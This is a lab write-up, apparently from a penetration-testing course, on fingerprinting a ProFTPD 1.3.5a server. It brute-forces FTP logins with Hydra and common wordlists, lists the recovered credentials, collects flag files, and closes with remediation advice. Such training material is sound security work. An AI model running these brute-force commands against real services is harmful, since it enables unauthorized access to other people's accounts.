






# ProFTPD Recon: Basics

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** demo.ine.local (192.75.47.3) — Unix, ProFTPD 1.3.5a<br>
**Objective:** Fingerprint the FTP server, brute-force credentials and collect the flags.

## 1. Executive Summary

The target runs **ProFTPD 1.3.5a**. Anonymous access is disabled, so we brute-force the FTP
service with Hydra using the provided user/password dictionaries, recovering seven valid
credential pairs. Logging in as each user exposes a per-user `secret.txt` flag.

## 2. Recon

```bash
ping -c 4 demo.ine.local
nmap -sV 192.75.47.3
```

Port 21 runs **ProFTPD 1.3.5a**.





## 3. Anonymous Check

Anonymous login is **not** allowed.

```bash
ftp 192.75.47.3
# Name: anonymous -> 530 Login incorrect
```



## 4. Credential Brute-Force (Hydra)

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
      -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      192.75.47.3 -t 4 ftp
```

Seven valid credentials are recovered:

```
sysadmin:654321   | rooty:qwerty    | demo:butterfly | auditor:chocolate
anon:purple       | administrator:tweety | diag:tigger
```



## 5. Collecting the Flags

Logging in as `sysadmin` and downloading `secret.txt`.

```bash
ftp 192.75.47.3        # sysadmin:654321
ls
get secret.txt
cat secret.txt
# 260ca9dd8a4577fc00b7bd5810298076
```



Same for `auditor`.

```bash
ftp 192.75.47.3        # auditor:chocolate
get secret.txt
# 098f6bcd4621d373cade4e832627b4f6
```



> Each recovered account holds its own `secret.txt`; repeat the FTP login/`get` for every
> credential pair to collect all seven flags.

## 6. Remediation Recommendations

1. **Enforce strong passwords & lockout** — all seven accounts fell to small wordlists.
2. **Disable unused FTP accounts** and restrict shell/FTP access by role.
3. **Use FTPS/SFTP** instead of plaintext FTP to protect credentials in transit.
4. **Keep ProFTPD patched** and limit exposure of the FTP service to trusted networks.
